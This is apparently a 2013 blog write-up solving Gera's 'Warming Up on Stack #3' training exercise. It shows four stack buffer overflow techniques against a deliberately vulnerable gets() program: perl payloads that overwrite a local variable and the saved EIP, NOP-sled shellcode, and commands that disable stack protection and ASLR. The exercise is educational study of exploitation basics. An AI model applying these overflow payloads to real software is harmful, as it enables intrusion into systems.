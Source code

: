 Gera's Warming Up on Stack #3 - Solutions
==========================================
date: 03/Jan/2013
summary: Solutions for Gera's Warming up on Stack #3 program.
tags: exploit, ctf

## Introduction

Following is the part 3 in the series of posts I started back in August 2012 with an aim to provide an analysis and possible solutions for the vulnerable programs provided by Gerardo 'gera' Richarte at the [Insecure Programming by example](http://pages.cs.wisc.edu/~riccardo/sec/) page.

This post follows the [Gera's Warming Up on Stack #2 - Solutions](/posts/20130102_geras-wuos-stack2-solutions.html) post and if you have not read it, I request you to please do so. Most of the concepts are very similar and since they have been already talked about, I'll not be reiterating them here.

Let's get started. Below is the source for the vulnerable [stack3.c](http://pages.cs.wisc.edu/~riccardo/sec/stack3.html) program:

```c
/* stack3.c                                     *
 * specially crafted to feed your brain by gera */

int main() {
    int cookie;
    char buf[80];

    printf("buf: %08x cookie: %08x\n", &buf, &cookie);
    gets(buf);

    if (cookie == 0x01020005)
        printf("you win!\n");
}
```

The above program accepts user-input through the `gets` function and then looks for a specific value in a local variable named `cookie`. If this value is equal to a certain pre-defined constant, `printf` function is used to show a `you win!` message to the user. There is no direct means of modifying the content of the `cookie` variable. The `gets` function will keep reading from the stdin device until it encounters a newline or EoF character. Since this reading loop fails to honor the size of the destination buffer, a classic buffer overflow vulnerability is introduced in the program. Our aim is to leverage this vulnerability and exploit this program so that it print the `you win!` message to stdout.

Here are a few observations that could be made by looking at the source of the program:

- Since it is defined prior to `buf`, the `cookie` would be placed at a higher memory address on the program stack, just below the saved registers from the function prologue
- The `buf` character array would be at an offset of at least 80B from `cookie`
- The `gets` call would accept unbounded user-input within `buf` array and hence it provides a mechanism to alter the call stack contents

Stack layout for [stack3.c](http://community.corest.com/%7Egera/InsecureProgramming/stack3.html) is identical to [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html) as already outlined in the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post.

Here are solutions I could think of to get the `you win!` message
printed:

- [Solution #1: Overflow the internal `buf` array to overwrite `cookie` with `0x01020005`](#solution1)
- [Solution #2: Overflow the internal `buf` array to overwrite EIP with the address of `printf(you win!)`](#solution2)
- [Solution #3: Inject a NOP-prefixed `printf(you win!)` shellcode and overwrite EIP with its address](#solution3)
- [Solution #4: Inject a NOP-prefixed `printf(you win!)` shellcode through an environment var and overwrite EIP with its address](#solution4)

Here's a brief description of the test system:

```c
# cat /etc/lsb-release | grep DESC ; uname -a | cut -d' ' -f1,3,12-13 ; gcc --version | grep gcc ; cat /proc/cpuinfo | grep -E '(vendor|model|flags)'
DISTRIB_DESCRIPTION=*Ubuntu 10.04.2 LTS*
Linux 2.6.38 i686 GNU/Linux
gcc (Ubuntu 4.4.3-4ubuntu5) 4.4.3
vendor_id   : GenuineIntel
model       : 37
model name  : Intel(R) Core(TM) i3 CPU       M 350  @ 2.27GHz
flags       : fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx fxsr sse sse2 syscall nx lm constant_tsc up pni monitor ssse3 lahf_l
```

## Solutions
<a name="solution1"></a>
### Solution #1: Overflow the internal `buf` array to overwrite cookie with `0x01020005`

Here's the GCC commandline to prepare [stack3.c](http://community.corest.com/%7Egera/InsecureProgramming/stack3.html) for this solution:

```c
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -o stack3 stack3.c
stack3.c: In function ‘main’:
stack3.c:8: warning: incompatible implicit declaration of built-in function ‘printf’
stack3.c:8: warning: format ‘%08x’ expects type ‘unsigned int’, but argument 2 has type ‘char (*)[80]’
stack3.c:8: warning: format ‘%08x’ expects type ‘unsigned int’, but argument 3 has type ‘int *’
/tmp/ccuoj5F5.o: In function `main':
stack3.c:(.text+0x27): warning: the `gets' function is dangerous and should not be used.
```

All done, let's exploit [stack3.c](http://community.corest.com/%7Egera/InsecureProgramming/stack3.html):

```c
# perl -e 'print "A"x80 . "\x05\x00\x02\x01"' | ./stack3
buf: bfd625a4 cookie: bfd625f4
you win!
```

<a name="solution2"></a>
### Solution #2: Overflow the internal `buf` array to overwrite EIP with the address of `printf(you win!)`

We need to have a look at the assembly of [stack3.c](http://community.corest.com/%7Egera/InsecureProgramming/stack3.html) and find out the location of the `printf` function which displays the `you win!` message:

```c
# objdump -d -M intel stack3 | grep -A20 main.:
08048444 <main>:
 8048444:   55                      push   ebp
 8048445:   89 e5                   mov    ebp,esp
 8048447:   83 ec 60                sub    esp,0x60
 804844a:   8d 45 fc                lea    eax,[ebp-0x4]
 804844d:   89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 8048451:   8d 45 ac                lea    eax,[ebp-0x54]
 8048454:   89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 8048458:   c7 04 24 50 85 04 08    mov    DWORD PTR [esp],0x8048550
 804845f:   e8 0c ff ff ff          call   8048370 <printf@plt>
 8048464:   8d 45 ac                lea    eax,[ebp-0x54]
 8048467:   89 04 24                mov    DWORD PTR [esp],eax
 804846a:   e8 e1 fe ff ff          call   8048350 <gets@plt>
 804846f:   8b 45 fc                mov    eax,DWORD PTR [ebp-0x4]
 8048472:   3d 05 00 02 01          cmp    eax,0x1020005
 8048477:   75 0c                   jne    8048485 <main+0x41>
 8048479:   c7 04 24 68 85 04 08    mov    DWORD PTR [esp],0x8048568
 8048480:   e8 fb fe ff ff          call   8048380 <puts@plt>
 8048485:   c9                      leave
 8048486:   c3                      ret
 8048487:   90                      nop
```

The address turns out to be 0x8048479. Let's try exploiting:

```c
# perl -e 'print "A"x88 . "\x79\x84\x04\x08"' | ./stack3
buf: bfb82e64 cookie: bfb82eb4
you win!
Segmentation fault
```

<a name="solution3"></a>
### Solution #3: Inject a NOP-prefixed `printf(you win!)` shellcode and overwrite EIP with its address

Let's first recompile [stack3.c](http://community.corest.com/%7Egera/InsecureProgramming/stack3.html) and request GCC to mark program stack as executable. Additionally, we also need to turn ASLR off so that we can have a static return address to overwrite EIP with:

```c
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o stack3 stack3.c 2>/dev/null ; readelf -l stack3 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
#
# echo 0 >/proc/sys/kernel/randomize_va_space ; cat /proc/sys/kernel/randomize_va_space
0
```

Now lets go ahead with exploitation. The Null-free, NOP-prefixed `printf(you win!)` shellcode we used to exploit [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html) in the [Gera's Warming Up on Stack #1 - Solutions](/posts/20120827_geras-wuos-stack1-solutions.html) post could be reused here:

```c
# ./stack3
buf: bffff4c4 cookie: bffff514
#
# ./stack3
buf: bffff4c4 cookie: bffff514
#
# perl -e 'print "\x90"x51 . "\xeb\x16\x31\xc0\x31\xdb\x31\xd2\xb0\x04\xb3\x01\x59\xb2\x09\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21" . "\xc4\xf4\xff\xbf"' | ./stack3
buf: bffff4c4 cookie: bffff514
you win!#
```

<a name="solution4"></a>
### Solution #4: Inject a NOP-prefixed `printf(you win!)` shellcode through an environment var overwrite EIP with its address

Lets get straight to exploitation:

```c
# echo $WINCODE | hexdump -C
00000000  eb 16 31 c0 31 db 31 d2  b0 04 b3 01 59 b2 20 cd  |..1.1.1.....Y. .|
00000010  80 31 c0 40 31 db cd 80  e8 e5 ff ff ff 79 6f 75  |.1.@1........you|
00000020  20 77 69 6e 21 20 0d 0a                           | win! ..|
00000028
#
# ./getenvaddr WINCODE ./stack3
[+] WINCODE: 0xbffff726
#
# perl -e 'print "\x90"x88 . "\x26\xf7\xff\xbf"' | ./stack3
buf: bffff4c4 cookie: bffff514
you win!
```

So, we have now successfully exploited the [stack3.c](http://community.corest.com/%7Egera/InsecureProgramming/stack3.html) program through four different techniques. Depending on the motive of your exploitation attempt, other techniques could be devised and some, mentioned here, be rejected.

## Conclusion

Like I said, earlier, these solutions are not practical anymore. They just serve the purpose of understanding how exploits used to work before mitigation features were introduced in modern systems. But, as with everything else, understanding basics is really important. As mitigation features mature, exploitation techniques become increasingly complex. And to understand those, we need to build upon the solid foundation of basic concepts, like those discussed on this and other blogs.
